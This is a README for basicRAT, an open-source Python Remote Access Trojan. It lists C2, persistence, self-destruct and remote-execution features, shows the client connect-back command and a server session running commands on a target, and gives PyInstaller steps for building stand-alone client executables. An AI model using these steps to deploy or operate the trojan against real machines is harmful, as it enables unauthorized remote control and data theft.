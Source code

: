# basicRAT

This is a cross-platform Python 2.7.x Remote Access Trojan (RAT). Currently still a work in progress, and gets hacked on as time allows. See the `binaries/` folder for prebuilt client executables.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform (Windows, Linux, and macOS)
* AES-256 encrypted C2 with D-H exchange
* Accepts connection from multiple clients
* Command execution
* Standard utilities (cat, ls, pwd, unzip, wget)
* System survey
* Self-destruct
* Primitive port scanning
* Client reconnect

## Usage

### Client
```
C:\>basicRAT_client.exe --ip 127.0.0.1 --port 1337 --timeout 30
```
Where `ip` is the basicRAT server IP address, `port` is the server listening port, and `timeout` is the number of seconds the client waits to attempt a reconnect to the server (if disconnected). These are the default values if not specified, you will likely need to supply at least an IP and port if using basicRAT outside of your local system.

### Server
```
$ python basicRAT_server.py --port 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
|    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
|  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
|     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
|  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
|     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
|_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
         https://github.com/vesche/basicRAT

basicRAT server listening for connections on port 1337.

[?] basicRAT> help
Command             | Description
---------------------------------------------------------------------------
cat <file>          | Output a file to the screen.
client <id>         | Connect to a client.
clients             | List connected clients.
execute <command>   | Execute a command on the target.
goodbye             | Exit the server and selfdestruct all clients.
help                | Show this help menu.
kill                | Kill the client connection.
ls                  | List files in the current directory.
persistence         | Apply persistence mechanism.
pwd                 | Get the present working directory.
quit                | Exit the server and keep all clients alive.
scan <ip>           | Scan top 25 TCP ports on a single host.
selfdestruct        | Remove all traces of the RAT from the target system.
survey              | Run a system survey.
unzip <file>        | Unzip a file.
wget <url>          | Download a file from the web.

[?] basicRAT> clients
ID | Client Address
-------------------
 1 | 127.0.0.1

[?] basicRAT> client 1
Client 1 selected.

[1] basicRAT> execute uname -a
Running execute...
Linux sandbox3 4.9.17-c9 #1 SMP Thu Mar 23 01:38:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
execute completed.
```

## Build your own stand-alone executable
If you'd rather not use one the prebuilt binaries, you can easily create your own executable like so:

On Windows you will need:
  * [Python 2.7.x](https://www.python.org/downloads/)
  * [PyInstaller](http://www.pyinstaller.org/)
  * [PyCrypto 2.6 for Python 2.7](http://www.voidspace.org.uk/python/modules.shtml#pycrypto)
  * [PyWin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
  * [pefile](https://github.com/erocarrera/pefile)

Then run something like `C:\path\to\PyInstaller-3.2\PyInstaller-3.2\pyinstaller.py --onefile basicRAT_client.py` from the basicRAT repo folder and it should generate a `dist/` folder that will contain a stand-alone PE (portable executable).

On Linux/macOS you will need:
  * [Python 2.7.x](https://www.python.org/downloads/)
  * PyInstaller & PyCrypto - `$ pip install pyinstaller pycrypto`

Then run something like `pyinstaller --onefile basicRAT_client.py` from the basicRAT repo folder and it should generate a `dist/` folder that will contain a stand-alone ELF/Mach-O executable.

## Contributors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)
* [@reznok](https://github.com/reznok), multiple client connection prototype

## Other open-source Python RATs for Reference
* [nathanlopez/Stitch](https://github.com/nathanlopez/Stitch)
* [n1nj4sec/pupy](https://github.com/n1nj4sec/pupy)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
